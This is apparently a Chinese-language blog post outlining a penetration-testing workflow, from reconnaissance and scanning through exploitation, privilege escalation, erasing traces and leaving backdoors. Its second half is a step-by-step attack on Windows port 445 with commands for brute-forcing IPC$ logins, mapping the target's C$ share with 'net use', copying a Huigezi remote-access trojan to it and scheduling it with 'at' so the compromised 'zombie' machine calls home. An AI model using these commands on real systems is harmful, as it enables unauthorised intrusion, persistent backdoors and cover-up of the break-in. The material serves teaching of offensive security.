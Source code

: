 ```yaml
---
layout: post
title: 渗透测试简单流程
date: 2020-08-16
categories:
- security
---
```

0. 获得授权(对方机构)

1. 信息收集

   * nslookup
   * whois

2. 扫描漏洞

   * nmap --> IP范围 端口 发布软件 什么网站 
   * scan port
   * 高级扫描: 如IIS漏洞  win2003-IIS6.0  win2008-IIS7.0
     * 扫描网站漏洞

3. 漏洞利用

4. 提权(shell环境, 桌面环境)

   ****

5. 毁尸灭迹

6. 留后门

   ****

7. 渗透测试报告

   

**手工测试端口号开放:**

> `telnet IP 端口号`

**445漏洞利用之IPC$**

1. scanport扫描445端口

2. 漏洞利用之IPC$：
   进行暴力破解：NTscan

3. `net use f: \\10.1.1.2\share 123.com /user:administrator`  把10.1.1.2的共享文件夹映射到本地F盘

   `net use f: /del` 删除映射

   `net use * /del` 删除全部映射

   `net use f: \\10.1.1.2\c$ 密码 /user:用户` 把10.1.1.2 的C盘映射成本地F盘

   `net use f: \\10.1.1.2\ipc$ 密码 /user:用户` 把10.1.1.2的空会话映射成本地F盘

* 以上命令行的驱动映射都是临时映射, 想要持久化映射则需要  `我的电脑右键-->映射网络驱动器-->登录时重新连接-->使用其他用户连接`

**暴力破解系统密码之445**

`net time \\10.1.1.2`(需要先映射IPC$)  -- 查看目标计算机的时间

`at \\10.1.1.2  时间 "c:\...\xxx.exe"`  设定计划任务

`at \\10.1.1.2`  查看目标的计划任务

4. 制作木马
   利用光盘上的灰鸽子软件

5. 植入木马（留后门）
   copy d:\heihei.exe \\10.1.1.2\c$

6. 设置计划任务自动执行木马：
   net time \\10.1.1.2
   at \\10.1.1.2 11:11 "c:\heihei.exe"

7. 等待肉鸡上线
